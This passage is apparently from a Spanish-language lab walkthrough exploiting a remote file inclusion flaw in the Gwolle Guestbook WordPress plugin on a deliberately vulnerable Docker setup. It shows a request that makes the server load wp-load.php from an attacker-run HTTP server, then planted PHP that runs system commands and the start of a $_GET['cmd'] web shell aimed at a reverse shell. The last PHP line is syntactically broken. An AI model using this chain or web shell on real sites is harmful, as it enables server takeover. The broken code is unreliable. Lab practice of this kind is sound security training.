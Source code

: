 Explicación: añadimos el parámetro que se nos solicitaba en las instrucciones

Acción: para aplicar los cambios tenemos que restaurar el contenedor

```Shell
docker restart dvwp_wordpress_1
```

Acción: abrimos servidor con python

```Shell
python3 -m http.server 1234
```

Acción: accedemos a la ruta URL que se nos indicaba en las instrucciones del exploit e ingresamos nuestra IP de atacante

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/
```

Resultado:

```Shell
python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
172.18.0.3 - - [21/Apr/2025 18:41:48] code 404, message File not found
172.18.0.3 - - [21/Apr/2025 18:41:48] "GET /wp-load.php HTTP/1.0" 404 -
```

Explicación: vemos que se esta tratando de cargar un archivo `wp-load.php`, es decir, tenemos una vía potencial de cargar archivos maliciosos

**Nota:** vemos que el código de estado es 404 (Not Found) porque actualmente el archivo no existe, si lo creamos con `touch wp-load.php` nos aparecería un estado 200. La clave está en escribir en este archivo el código *RCE* para obtener una *Shell Reverse* o ejecutar comandos

## Paso 4 - Ejecución de comandos

Acción: modificamos el archivo wp-load.php

```php
<?php
  system ("hostname -I");
?>
```

Resultado: al recargar el navegador con la ruta que establecimos por el exploit

```URL
172.18.0.3 
```

Explicación: hemos inyectado comandos remotamente desde el navegador al cargar un archivo malicioso aprovechando la vulnerabilidad de un plugin desactualizado. Vemos la IP de la víctima

Acción:

```php
<?php
  system ($_GET['cmd']_$);
?>
```
